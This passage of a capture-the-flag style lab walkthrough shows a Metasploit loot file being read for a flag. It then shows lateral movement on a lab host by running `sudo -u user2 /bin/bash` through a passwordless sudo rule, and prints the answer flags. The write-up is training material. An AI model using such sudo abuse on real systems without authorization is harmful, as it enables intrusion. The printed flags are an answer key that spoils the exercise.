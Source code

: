 Read the output file:

```
┌──(kali㉿kali)-[/usr/share/exploitdb]
└─$ cat /home/kali/.msf4/loot/20221117065310_default_46.101.0.22_simplebackup.tra_338516.txt
HTB{my_f1r57_h4ck}
```

**Answer:** `HTB{my_f1r57_h4ck}`

---
## Privilege Escalation
### Question 1:
![](./attachments/Pasted%20image%2020221117133900.png)
*Hint: Review what you learned in this module*

```
┌──(kali㉿kali)-[~]
└─$ ssh user1@161.35.169.118 -p 31236
The authenticity of host '[161.35.169.118]:31236 ([161.35.169.118]:31236)' can't be established.
ED25519 key fingerprint is SHA256:KDcF5lg81jNEGgdr67bEo+Ui1pmsyHXKnw/ZHPLZCyY.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[161.35.169.118]:31236' (ED25519) to the list of known hosts.
(user1@161.35.169.118) Password: 
Welcome to Ubuntu 20.04.1 LTS (GNU/Linux 5.10.0-0.deb10.17-amd64 x86_64)

(...)

user1@gettingstartedprivesc-476470-65b4ccfbdf-wtx99:~$ sudo -l
Matching Defaults entries for user1 on
    gettingstartedprivesc-476470-65b4ccfbdf-wtx99:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user1 may run the following commands on
        gettingstartedprivesc-476470-65b4ccfbdf-wtx99:
    (user2 : user2) NOPASSWD: /bin/bash
user1@gettingstartedprivesc-476470-65b4ccfbdf-wtx99:~$ sudo -u user2 /bin/bash
user2@gettingstartedprivesc-476470-65b4ccfbdf-wtx99:/$ whoami
user2
user2@gettingstartedprivesc-476470-65b4ccfbdf-wtx99:/$ cat /home/user2/flag.txt
HTB{l473r4l_m0v3m3n7_70_4n07h3r_u53r}
```

**Answer:** `HTB{l473r4l_m0v3m3n7_70_4n07h3r_u53r}`
